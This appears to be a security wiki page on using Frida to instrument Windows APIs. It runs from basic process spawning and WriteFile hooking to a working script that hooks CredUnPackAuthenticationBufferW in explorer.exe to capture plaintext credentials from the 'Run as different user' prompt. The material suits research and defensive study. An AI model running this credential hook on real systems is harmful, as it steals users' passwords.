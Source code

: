 # Instrumenting Windows APIs with Frida

[Frida](https://frida.re) is dynamic instrumentation toolkit for developers, reverse-engineers, and security researchers.

## Spawning New Process with Frida

We can ask frida to spawn a new process for us to instrument:

```text
frida c:\windows\system32\notepad.exe
```

![](../../.gitbook/assets/image%20%28578%29.png)

## Attaching Frida to Existing Process

We can ask frida to attach to an existing process:

```text
frida -p 10964
```

![](../../.gitbook/assets/image%20%28698%29.png)

## Hooking a Function

The below code in `hooking.js` will find address of the Windows API `WriteFile` \(lives in kernel32.dll/kernelbase.dll\) and hexdump the contents of the 1st argument passed to it:

{% code title="hooking.js" %}
```javascript
var writeFile = Module.getExportByName(null, "WriteFile");

Interceptor.attach(writeFile, {
    onEnter: function(args)
    {
        console.log("Buffer dump:\n" + hexdump(args[1]));
        // console.log("\nBuffer via Cstring:\n" + Memory.readCString(args[1]));
        // console.log("\nBuffer via utf8String:\n" + Memory.readUtf8String(args[1]));
    }
});
```
{% endcode %}

Let's spawn a new `notepad.exe` through Frida and supply it with the above `hooking.js` code, so that we can start instrumenting the `WriteFile` API and inspect the contents of the buffer that is being written to disk:

```text
frida C:\windows\system32\notepad.exe -l .\hooking.js
```

![](../../.gitbook/assets/frida-instrumenting-api.gif)

Notice that we can update the `hooking.js` code and the instrumentation happens instantly - it does not require us to re-spawn the notepad or re-attaching Frida to it. In the above GIF, this can be seen at the end when we request the console to spit out the `process.id` \(the frida is attached to\) and the notepad process ID gets printed out to the screen instantly.

## Frida-Trace

If we want to see if certain API calls are invoked by some specific process, say `WriteFile`, we can use `frida-trace` tool like so:

```text
frida-trace -i "WriteFile" C:\windows\system32\notepad.exe
```

![](../../.gitbook/assets/frida-trace.gif)

## Real Life Example - Intercepting Credentials

Below shows how we can combine the above knowledge for something a bit more interesting.

Can we intercept the plaintext credentials from the credentials prompt the user gets when they want to execute a program as another user?

![Credentials prompt presented for &quot;Run as different user&quot;](../../.gitbook/assets/credential-popup.gif)

The answer is of course yes, so let's see how this could be done using Frida tools.

Let's use `frida-trace` to see if explorer.exe ever calls any functions named `*Cred*` when we invoke the credentials popup:

```text
frida-trace -i "*Cred*" -p (ps explorer).id
```

Below, we can see that indeed, there is a call to `CredUIPromptForWindowsCredentialsW` made when the prompt is first invoked:

![](../../.gitbook/assets/credential-popup-trace.gif)

Entering some fake credentials shows the following interesting `Cred*` API calls are made \(in red\):

![](../../.gitbook/assets/image%20%28663%29.png)

...and the [`CredUnPackAuthenticationBufferW`](https://docs.microsoft.com/en-us/windows/win32/api/wincred/nf-wincred-credunpackauthenticationbufferw) \(in lime\) is of special interest, because per MSDN:

> The **CredUnPackAuthenticationBuffer** function converts an authentication buffer returned by a call to the [CredUIPromptForWindowsCredentials](https://docs.microsoft.com/en-us/windows/desktop/api/wincred/nf-wincred-creduipromptforwindowscredentialsa) function into a string user name and password.

We can now instrument `CredUnPackAuthenticationBufferW` in a frida javascript like so:

{% code title="Credentials.js" %}
```javascript
var username;
var password;
var CredUnPackAuthenticationBufferW = Module.findExportByName("Credui.dll", "CredUnPackAuthenticationBufferW")

Interceptor.attach(CredUnPackAuthenticationBufferW, {
    onEnter: function (args) 
    {
        // Credentials here are still encrypted
        /*
            CREDUIAPI BOOL CredUnPackAuthenticationBufferW(
                0 DWORD  dwFlags,
                1 PVOID  pAuthBuffer,
                2 DWORD  cbAuthBuffer,
                3 LPWSTR pszUserName,
                4 DWORD  *pcchMaxUserName,
                5 LPWSTR pszDomainName,
                6 DWORD  *pcchMaxDomainName,
                7 LPWSTR pszPassword,
                8 DWORD  *pcchMaxPassword
            );        
        */
        username = args[3];
        password = args[7];
    },
    onLeave: function (result)
    {
        // Credentials are now decrypted
        var user = username.readUtf16String()
        var pass = password.readUtf16String()

        if (user && pass)
        {
            console.log("\n+ Intercepted Credentials\n" + user + ":" + pass)
        }
    }
});
```
{% endcode %}

We can now hook the explorer.exe by providing frida with our instrumentation script like so:

```text
frida -p (ps explorer).id -l C:\labs\frida\hello-world\credentials.js
```

![](../../.gitbook/assets/image%20%28670%29.png)

With `CredUnPackAuthenticationBufferW` instrumented, entering credentials in the prompt launched by explorer.exe, gives us the expected result - the credentials are seen in plaintext:

![](../../.gitbook/assets/credential-popup-capture-credentials.gif)

## Resources

{% embed url="https://frida.re/docs/javascript-api/\#memory" caption="" %}

